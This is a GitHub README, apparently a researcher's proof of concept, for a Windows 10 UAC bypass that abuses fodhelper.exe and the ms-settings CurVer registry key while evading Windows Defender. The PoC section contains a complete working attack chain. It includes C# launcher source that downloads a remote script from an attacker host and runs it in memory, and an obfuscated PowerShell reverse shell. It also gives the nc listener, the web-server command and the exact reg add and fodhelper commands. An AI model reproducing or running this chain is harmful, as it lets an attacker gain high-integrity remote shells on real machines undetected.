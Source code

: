 # UAC-Bypass-2023

## User Account Control Bypass without triggering Windows Defender
## Author: Ruggero Tafuro
## Date: 13-05-2023

## What is UAC?
UAC (User Account Control) is a security mechanism present in Windows operating systems that limits the
access of programs to user accounts with elevated privileges, such as administrators.
Its main strength is to protect the system from malware attacks, which try to exploit vulnerabilities to gain
administrator privileges and compromise the system.
UAC works by asking for explicit permission from the user whenever a program requests access to protected operating system resources, such as system folders, the system registry or security settings.
In this way, UAC prevents unauthorized or potentially harmful programs from modifying the system without the user’s consent.
Additionally, UAC can also help prevent user errors that could compromise system security. For example,
when a non-administrator user tries to perform an action that requires elevated privileges, UAC prompts
the user to provide administrator credentials to
grant permission.
In summary, the strength of UAC lies in its ability to limit the access of programs to administrator privileges and to request explicit user authorization whenever access to protected operating system resources is
requested.
This can help prevent malware attacks and user errors that could compromise system security.

## Fodhelper and the system registry:
Windows 10 environments allow users to manage language settings for a variety of Windows features
such as typing, text-to-speech etc.
When a user requests to open “Manage optional features” in Windows Settings to change the language, a
process under the name fodhelper.exe is created.
This process is running in high integrity because the binary file has the auto-elevation setting set to “true”.
“CurVer” is a Windows registry subkey that is used to specify the current version of a given object class or
registry path. This value is used to determine which version of an application or component the system
should load when prompted.
For example, when an application or component is installed on the system, it is usually recorded in the
system registry. The “CurVer” subfolder can be used to specify the current version of that application or
component, letting the system know which version to load when prompted.

## Bypass:
In Windows 10 an attacker in possession of a user with administrative privileges, but with a “medium”
level label, is allowed to generate a process with superior privileges (“high” level label).
This is possible thanks to the creation of keys within the system registry that manipulate the normal execution expected by fodhelper, so that it executes commands with elevated privileges bypassing the User
Account Contol (UAC) by executing .exe files.
Everything is reproducible without the Windows Defender detection.

## Severity:
The impact of the bypass that I personally evaluate is HIGH as it allows anyone authenticated with an administrative user with an RCE vulnerability to increase the integrity of their processes to “high”.
This exploit is currently exploitable within Windows 10 updated to the latest version.
In fact, in the following images you can see how the test system has been updated to the latest patch
available.

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/c3136cd3-ae03-4a1f-9195-63facfc40269)

*1. List of Windows Update patches installed on the system*

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/c26f4a81-832a-4923-af3b-b87165e95371)

*2. Windows Update - update to the latest available version released*

Windows Defender is correctly active in all its features
![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/1b235a9a-2110-490a-b14b-7dca5bc91487)

*3. Windows Defender features*

## PoC:
We can assume that an attacker is already inside the target machine with an administrative user (in this
case “rugge”) and has the possibility to execute commands (RCE) inside a powershell.
For convenience and clarity, the commands will be executed by the user “rugge” directly from the target
system, but everything can also be reproduced in a scenario in which the attacker executes the commands
remotely.
The target machine will have the IP as shown:

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/23d2ac14-fcb2-4d43-b7f8-1116d9ea2a96)

*4. IP Windows (target)*

While the attacking machine running Ubuntu 22.04 will have ip:

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/eea1efa5-73af-4041-8556-2f9f8cb25d1e)

*5. Ubuntu IP (attacker)*

The aim is to modify the fodhelper registers in particular HKCU:\Software\Classes\ms-settings\CurVer
pointing to a specially created one (HKCU\Software\Classes\.hack\Shell\Open\command) which will contain the executable (revs.exe) which will be run as soon as we call fodhelper.exe.

So let’s create an executable whose main purpose is to run a powershell.exe (copied from “C:\Windows\
System32\WindowsPowerShell\v1.0” and renamed to “ps.exe” inside a temporary folder “tempp ” so as
not to make Defender and/or a system user suspicious) with the sole command of executing in memory
the code contained in the file (script.ps1) that the target Windows will find at the address of the http
python simple-server that is hosted by the attacking machine (http://172.20.10.14:8000/script.ps1)
A possible source code example of the executable:

```
 using System;
 namespace PowerShellProject
 {
 class Program
 {
 static void Main(string[] args)
 {
 System.Diagnostics.Process.Start(@”C:\tempp\ps.exe”, “-c \”IEX([Net.Webclient]::new().DownloadString(‘http://172.20.10.14:8000/script.ps1’))\””);
 }
 }
 }
```

Once the code has been compiled and transferred to the target machine in the “tempp” temporary folder,
what we will have to do is to start the http python simple-server on the attacking machine with the same
listening port as the one in the “revs.exe”

```
 $ python3 -m http.server --bind 172.20.10.14 8000 
```
The script that will be requested by the target is nothing more than a simple obfuscated reverse shell to
not trigger Windows Defender:

example script.ps1 
``` 
$client = Ne’’w-Object System.Net.Sockets.TCPClient(‘172.20.10.14’,4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ‘PS ‘ + (pwd).Path + ‘> ‘;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Finally, still on the attacking machine, in another bash shell window we will start a “listener” ready to capture the outgoing connection of the reverse shell performed within the target machine.

``` 
 $ nc -lvnp 4444
``` 
So let’s go back to the target system and start executing the commands within a powershell that will
change the system registers.
The first command will launch the cmd to add a custom file association for the “.hack” extension in the
Windows registry, which allows you to open the .hack files with the revs.exe application present in the “C:\tempp\revs\revs\bin\Debug\net6.0”.

``` 
cmd /c ‘call reg add “HKCU\Software\Classes\.hack\Shell\Open\command” /v “” /d “\”C:\tempp\revs\revs\bin\Debug\net6.0\revs.exe\”” /f’
``` 

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/2e424062-0893-4ff0-8286-b29f3a69c557)

*6. Registry key associated to .hack with call to revs.exe*

The second command instead will launch cmd which sets the “.hack” extension as the default value for
displaying system settings in Windows

```
cmd /c ‘call reg add “HKCU\Software\Classes\ms-settings\CurVer” /d “.hack” /f’
```

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/3f2871ee-82e6-4137-a9d6-63debce635c1)

*7. CurVer registry key referenced to .hack registry key*

At this point everything is ready to call fodhelper and receive the connection from the target Windows on
the attacking machine

```
cmd /c ‘call fodhelper.exe’
```

With this call fodhelper will use the memory registers which will start the executable revs.exe which will
contact the python server offering the script.ps1 which, once executed, will establish a connection to the
attacking machine creating a reverse shell with integrity level “high ”

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/1fc84235-1d46-4013-96ea-2d9332034613)

*8. Execute commands writing values to the system registry and calling revs.exe*

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/63bb6a96-bc59-4c04-a8d6-fea8d550b07e)

*9.Target Windows GET request to the attacking server*

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/2b3bcfec-ab43-4a22-aeeb-81880beb86fb)

*10. Reverse shell integrity level obtained by the attacking machine*

We can also notify how Windows Defender did not get alarmed during operations and let us reach the goal
without its interference

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/b0d9c77d-32a8-4b17-9ff8-db21e1abdfc7)

*11. No threats detected by Windows Defender*

In this last image demonstrating the elevation of privileges, the integrity level (medium) of the powershell
on which we executed the commands is shown

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/e9f28102-c7d4-4400-834f-42d7a0a3035b)

*12. Original powershell integrity level*


